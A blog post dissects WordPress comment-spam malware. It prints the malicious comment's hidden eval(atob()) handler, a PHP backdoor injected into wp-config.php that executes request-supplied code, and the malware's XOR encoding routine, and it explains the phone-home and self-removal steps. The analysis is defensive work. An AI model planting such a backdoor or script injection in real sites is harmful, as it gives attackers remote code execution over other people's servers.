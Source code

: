 ```yaml
---
date: "2015-01-07T00:00:00Z"
tags:
- wordpress
- security
- code
- analysis
- encryption
aliases:
- /2015/01/07/exploring-malicious-wordpress-spam.html
title: Exploring malicious wordpress comment spam
---
```


I found an interesting piece of WordPress malware. In this post, I'll dig into the nitty-gritty of
how it works.

<!--more-->

**DISCLAIMER:** The contents of this post may contain code that is unsafe to run. The
purpose of this post is purely exploratory and meant for defensive purposes, and not as an intro to
1337 hax0ring. If you use the knowledge below for bad, don't blame me when the feds' party van comes
for you. Your actions are your own.

*Last updated on 2014-01-07 17:25 CST*

### Introduction ###

I manage a few WordPress websites in my spare time. Most of the sites don't have comments enabled,
but a few do, so on occasion I'll be alerted to new comments. The majority of those comments are
spam (usually having something to do with advertising SEO opportunities) and thus are left in the
purgatory of the moderation queue. However, one would-be comment was different from the usual
fake-SEO tripe. This post will examine this particular comment and explore its malicious properties.

*Tl;dr? see the summary at the bottom of this post.*

### The raw comment ###

This is the email notification I received when the comment was created. It includes the relevant
metadata as well as the raw comment itself:

{{< highlight text >}}
A new comment on the post "Post" is waiting for your approval
POST-URL

Author : Wasia (IP: 50.63.194.123 , p3nlhg1391.shr.prod.phx3.secureserver.net)
E-mail : aaa@aaa.com
URL    :
Whois  : http://whois.arin.net/rest/ip/50.63.194.123
Comment:
Welcome to WordPress. This is your first post. [<a title="]" rel="nofollow"></a>[\" <!--
style=\'position:fixed;top:0px;left:0px;width:6000px;height:6000px;color:transparent;z-index:999999999\'
onmouseover="eval(atob(\'naughty-javascript-in-base-64-goes-here'))" &gt; --><a></a>] Edit or delete it, then start blogging!

Approve it: APPROVE-URL
Trash it: TRASH-URL
Spam it: SPAM-URL
Currently 100 comments are waiting for approval. Please visit the moderation panel:
PANEL-URL

{{< / highlight >}}

The comment appears to be setup to force anyone who visits the page it inhabits to run some
obfuscated javascript (the large chunk of characters within the <code>eval(atob())</code> ).

### De-obfuscating the comment's JavaScript ###
De-obfuscation of the javascript is accomplished by decoding the block of characters inside of the
atob() function call from base-64. It's now clear that this script is trying to create an iframe on
the page and fill it with the wordpress installation's plugin editor in order to edit the
<code>hello.php</code> plugin. If the desired changes have already been made, then it will instead
set the iframe to run the modified <code>hello.php</code> script.

But what are those changes? I found the answer by decoding a base-64 string that was being added (in
decoded form) to <code>hello.php</code>. It turned out to be a chunk of PHP that serves to exploit
incorrect file permission settings to allow for arbitrary remote code execution. 

### Overview of the modifications to hello.php ###

The main target of the attack appears to be <code>wp-config.php</code>, a file that holds important
settings for WordPress sites (like database access credentials). The script injects some code into
<code>wp-config.php</code> (reproduced in a more readable form below):

#### Injection into wp-config.php ####
{{< highlight php >}}
<?php
if (isset($_REQUEST['FILE'])){
    $_FILE = $_REQUEST['unique-value-here']('$_',$_REQUEST['FILE'].'($_);');
    $_FILE(stripslashes($_REQUEST['HOST']));
}
?>
{{< / highlight >}}

It appears that by adding this code the attacker can execute arbitrary code contained in a
specially-crafted request to <code>wp-config.php</code>. Specifically, any request with the 'FILE'
variable set will execute the code supplied by the request variable with the same name as a unique
ID generated previously in the script. This provides the attacker with the ability to limit access
to this exploit. 

Next, the script moves to correct the permissions of <code>wp-config.php</code> in order to prevent
other attackers from gaining control (a consistent theme in this script, as will be shown below).
Another consistent theme of this attack is the clever hiding of modified files' modification dates.
This ensures that a simple directory listing doesn't give away that the exploit has occurred. 

#### Phoning home: report() ####

In order for the attacker to make use of the now-compromised site, it is necessary for them to
obtain the unique ID in the script. The <code>report()</code> function sends that and the WordPress
installation's host to a hardcoded list of sites. The reporting action is accomplished via a series
of HTTP GET requests containing this information as a URL parameter.

#### Basic encryption: Uno_encode() ####

{{< highlight php >}}
<?php
function Uno_encode($String)
{
    $Salt='dc5p9dOpBc';
    $StrLen = strlen($String);
    $Seq = 'DMEf5HZuPq';
    $Gamma = '';
    while (strlen($Gamma)<$StrLen)
    {
        $Seq = pack("H*",sha1($Gamma.$Seq.$Salt));
        $Gamma.=substr($Seq,0,8);
    }

    return base64_encode($String^$Gamma);
}
?>
{{< / highlight >}}

The data reported back to the attackers is first encrypted by the <code>Uno_encode()</code>
function. It's notable because it doesn't use a standard cryptosystem (like AES or RSA);
instead, it takes a much simpler approach by creating a sort of static key and then XORing it with
the string to be encrypted. Decryption can be accomplished by sending the base-64 decoded ciphertext
through the same function, like this:

{{< highlight php >}}
<?php
function Uno_decode($String)
{
    return base64_decode(Uno_encode(base64_decode($String)));
}
?>
{{< / highlight >}}

Of course, this requires that you know the values for <code>$Salt</code> and <code>$Seq</code> (as
well as the rest of the algorithm), so it's reasonably secure as long as those secrets aren't known.
Unfortunately for the attackers, now they *are* known, and they now wish they had chosen an asymmetric
algorithm instead (since exposing a public key wouldn't have also exposed their communications).

#### Self-patching and self-removal ####

After modifying <code>wp-config.php</code> and reporting back, the script takes steps to hide its
tracks and secure the injected code's place in the WordPress installation. First, it removes the
original malicious comment from the MySQL database. Next, it patches the WordPress installation by
modifying the <code>wp-comments-post.php</code> file to completely block the posting of new
comments. It's definitely a sledgehammer approach to fixing the vulnerability used in this exploit,
but it works as long as no one gets curious as to why new comments can't be posted. Finally, the
script removes itself from <code>hello.php</code>. It uses an MD5 hash value at the bottom of the script
as a boundary marker to indicate where the malicious script ends and the original content begins. 

### Summary ###

This exploit originates as a comment designed to look like the default WordPress post. The first
time it's viewed it runs some JavaScript which adds the PHP previously described to a plugin,
<code>hello.php</code>. The second time the comment is viewed it executes the plugin, in turn
running code that

 1. injects more PHP into the WordPress installation's settings file, <code>wp-config.php</code>,
 2. sends information back to the attackers (allowing them to execute
arbitrary code with a specially-crafted request using the injected code from 1.),
 3. removes the comment, and
 4. removes the malicious code added to <code>hello.php</code>.

#### Requirements for vulnerability ####

Now that I've gone through the exploit I think I can speculate as to what it would take for a
WordPress site to be vulnerable to it. It seems to require the following to be true:

 1. Commenting must be enabled
 2. Commenting must be open to everyone
 3. Comments must be automatically approved (no moderation queue)
 4. The web server (or whatever entity is running WordPress) must be able to write to the WordPress
    installation directory

Number 4 is the big one, since many folks installing WordPress themselves can make the easy mistake
of using incorrect file system permissions.


### Final thoughts ###

Something that struck me as odd was that there wasn't an immediate attempt to exfiltrate the
database access credentials. Wouldn't a list of valid credentials be valuable?

### BONUS -- A CONNECTION TO ANOTHER EXPLOIT?! ###

I got curious about the MD5 hash (<code>49de371511c1de3bde34b0108ec7f129</code>) at the bottom of
the PHP code that gets added to <code>hello.php</code> and did some googling. [This
guy](https://www.planetspork.com/w/2014/11/this-seems-interesting/) had someone try to use
shellshock to add some PHP to his site, and as part of the PHP's access control it compares the MD5
of the requesting browser's user agent to the MD5 hash value listed at the bottom of the PHP in this exploit.
It seems that the same entity might be responsible for both exploits.

### References / Resources Used ###
 * [Base-64 decoder](https://www.base64decode.org/) to decode the base-64 strings
 * [w3schools](http://www.w3schools.com/jsref/met_win_atob.asp) to brush up on basic JavaScript
 * [The PHP Manual](http://php.net/manual/en/index.php) for a refresher on common PHP functions
 * The \#crypto channel on the [Freenode IRC network](http://freenode.net/)
